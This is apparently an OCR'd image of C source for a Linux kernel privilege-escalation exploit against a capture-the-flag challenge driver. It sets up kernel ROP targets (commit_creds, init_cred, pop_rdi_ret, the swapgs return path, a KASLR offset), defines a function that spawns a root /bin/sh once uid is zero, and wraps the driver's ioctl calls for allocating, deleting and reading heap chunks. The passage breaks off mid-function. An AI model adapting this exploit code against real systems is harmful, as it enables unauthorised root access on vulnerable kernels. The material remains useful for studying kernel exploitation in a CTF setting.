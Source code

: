 ```c

size_t swapgs_restore_regs_and_return_to_usermode;
size_t init_cred;
size_t pop_rdi_ret;
size_t kernel_base = 0xffffffff81000000, kernel_offset = 0;
size_t commit_creds;
size_t gadget;

void get_root_shell(void)
{
    if(getuid()) {
        log_error("[x] Failed to get the root!");
        sleep(5);
        exit(EXIT_FAILURE);
    }

    log_success("[+] Successful to get the root.");
    log_info("[*] Execve root shell now...");

    system("/bin/sh");
    
    /* to exit the process normally, instead of potential segmentation fault */
    exit(EXIT_SUCCESS);
}

/**
 * Challenge Interface
**/

struct chal_karg_type1 {
    size_t  idx;
    size_t  size;
    void    *buf;
};

struct chal_karg_type2 {
    size_t  size;
    void    *buf;
};

void alloc_chunk(long dev_fd, size_t size, void *buf)
{
    struct chal_karg_type2 arg = {
        .size = size,
        .buf = buf,
    };
    ioctl(dev_fd, 0x20, &arg);
}

void delete_chunk(long dev_fd, size_t idx)
{
    struct chal_karg_type1 arg = {
        .idx = idx,
    };
    ioctl(dev_fd, 0x30, &arg);
}

void read_chunk(long dev_fd, size_t idx, size_t size, void *buf)
{
    struct chal_karg_type1 arg = {
        .idx = idx,
        .size = size,
        .buf = buf,
```